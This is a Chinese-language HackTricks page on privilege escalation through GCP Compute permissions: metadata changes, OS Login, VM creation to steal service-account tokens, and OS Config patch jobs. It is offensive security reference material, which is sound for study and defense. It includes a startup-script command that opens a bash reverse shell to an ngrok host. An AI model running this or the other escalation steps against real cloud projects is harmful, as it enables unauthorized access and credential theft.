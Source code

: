 # GCP - 计算机权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上**关注**我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧**。

</details>

## 计算机

有关GCP中计算机和VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和SSH密钥），**需要您对附加到实例的SA具有`actAs`权限**，即使SA已经附加！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有此权限，您可以**修改**实例的**元数据**信息并更改**用户的授权密钥**，或**创建**一个具有sudo权限的**新用户**。因此，您将能够通过SSH执行任何VM实例并窃取实例正在运行的GCP服务帐户。\
限制：

* 请注意，默认情况下在VM实例中运行的GCP服务帐户**范围非常有限**
* 您需要**能够联系SSH**服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重新启动实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限提供与前一个权限相同的特权，但仅适用于特定实例，而不是整个项目。适用于前一部分的**相同利用和限制**。

### `compute.instances.setIamPolicy`

此类权限将允许您**授予自己具有先前权限的角色**，并滥用它们来提升特权。

### **`compute.instances.osLogin`**

如果实例中启用了**OSLogin**，使用此权限，您只需运行**`gcloud compute ssh [INSTANCE]`**即可连接到实例。您**不会在实例内具有 root 特权**。

### **`compute.instances.osAdminLogin`**

如果实例中启用了**OSLogin**，使用此权限，您只需运行**`gcloud compute ssh [INSTANCE]`**即可连接到实例。您将在实例内具有**root特权**。

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建具有分配的服务帐户的虚拟机，并窃取服务帐户的令牌**，通过访问元数据来提升特权。

此方法的利用脚本可以在[此处](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您具有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目中的所有计算实例上获得代码执行权限。

如果要手动利用此功能，您需要创建[补丁作业](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json)或[部署](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)来运行补丁作业：

`gcloud compute os-config patch-jobs execute --file=patch.json`

要部署补丁部署：

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

存在自动化工具，如[patchy](https://github.com/rek7/patchy)，用于检测权限不足并自动进行横向移动。

**您还可以滥用此功能以实现持久性。**

### `compute.machineImages.setIamPolicy`

**授予自己额外的权限**以操作计算机映像。

### `compute.snapshots.setIamPolicy`

**授予自己额外的权限**以操作磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外的权限**以操作磁盘。

### 绕过访问范围

通过此链接，您可以找到一些[**尝试绕过访问范围的想法**](../)。

### GCP 计算实例中的本地特权升级

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
